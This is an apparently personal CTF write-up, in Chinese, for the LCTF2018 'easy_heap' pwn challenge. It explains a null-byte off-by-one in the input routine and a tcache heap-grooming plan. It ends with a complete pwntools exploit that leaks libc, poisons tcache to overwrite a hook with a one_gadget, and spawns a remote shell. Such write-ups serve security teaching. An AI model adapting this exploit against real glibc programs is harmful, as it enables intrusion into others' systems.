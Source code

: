```yaml
---
title: 'LCTF2018:Easy_heap'
date: 2018-11-20 19:02:38
tags: pwn tcache
---
```

About tcache & null byte off 
<!--more-->
# Analysis
[附件][1]
tcache 了解的太少...
做了好久...现在看起来也挺简单的...可能最近太浮躁没法静下来思考...

主要功能是add,show,和delet

用的是libc2.27有tcache

# 漏洞
```arm
v4 = __readfsqword(0x28u);
  i = 0;
  if ( size )
  {
    while ( 1 )
    {
      read(0, &ptr[i], 1uLL);
      if ( size - 1 < i || !ptr[i] || ptr[i] == 10 )
        break;
      ++i;
    }
    ptr[i] = 0;
    ptr[size] = 0;
  }
  else
  {
    *ptr = 0;
  }
  return __readfsqword(0x28u) ^ v4;
```
其他地方看不出啥洞...这里有个很明显的ptr[size] = 0;
null byte off
但是这题又很刻薄。。。
* malloc定长malloc(0xF8uLL)
* read时遇到0x00或者0x0a会停止...
//以上两点导致无法自己留pre_size
//每个chunk都是0x100导致只能off_by_one只能改pre_inuse位

然后是思路
* 利用null_byte_off 改pre_inuse 那么主要有两个问题-->
```arm
1.per_size
2.unlink 的assert
```
* 第一个问题解决方案:填满tcache 然后利用chunk的合并留下pre_size
```
例如已经填满tcache之后
只要再次free三个chunk那么就会留下0x100在第一个chunk尾部，0x200在第二个chunk尾部....
这样我们就有了per_size
```
* 第二个问题的解决办法:
```sh
仅有A在unsorted bin
null byte off 掉C
free C 
```

* 所以总的思路：
```sh
#partI set pre_size
malloc 10个chunk
free 掉7个 填充tcache
依次free掉剩下三个合并成一个0x300的unsorted bin
malloc 10个chunk
#partI over


#partII Fengshui
#方便起见我们程那三个有pre_size的chunk为ABC 
free B 进tcache 保护起来
free 6个chunk填满tcache
free A 进unsorted bin
malloc 6 个chunk
malloc B  做null byte off
free c
# 成功over lap

# part III Tcache atk  
泄露
hijack hook
```

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("and?\n> ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("size \n> ",str(size))
	p.sendafter("tent \n> ",data)
def show(idx):
	cmd(3)
	p.sendlineafter("dex \n> ",str(idx))
def free(idx):
	cmd(2)
	p.sendlineafter("dex \n> ",str(idx))
#p=process("./easy_heap")
p=remote("10.21.13.100",10003)
#context.log_level='debug'
for x in range(10):
	add(0xf7,'\n')
for x in range(7):
	free(9-x)

free(0)
free(1)
free(2)
#set the presize
for x in range(7):
	add(0xf7,'\n')

add(0x10,'\n')#7
add(0x10,'\n')#8
add(0xf7,'\n')#9
# keep the presize and begin to free
free(8)# protec 
for x in range(6):
	free(x)
#fill tcache
free(7)#into tcache
for x in range(6):
	add(0x10,'\n')
add(0xf8,'\n')#7
for x in range(7):
	free(x)
free(9)
####over laped
for x in range(7):
	add(0x2,'\n')
add(0x2,'\n')#8
show(7)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
log.warning(hex(base))
add(0x20,'\n')#9
free(1)
free(2)
free(7)
free(0)
free(9)
add(0x10,p64(0x7ffff7dcfc30-0x7ffff79e4000+base))#0
add(0x10,'\n')#1
add(0x10,'\n')#2
one=base+0x10a38c
add(0x10,p64(one))
p.sendlineafter(">",'1')
p.sendline("clear")
#gdb.attach(p)
p.interactive("nier>>>>")
```

# Review 
仔细想想思路挺顺的一题....最近太浮躁了...修身养性修身养性


[1]:https://github.com/n132/Watermalon/tree/master/LCTF_2018/easy_heap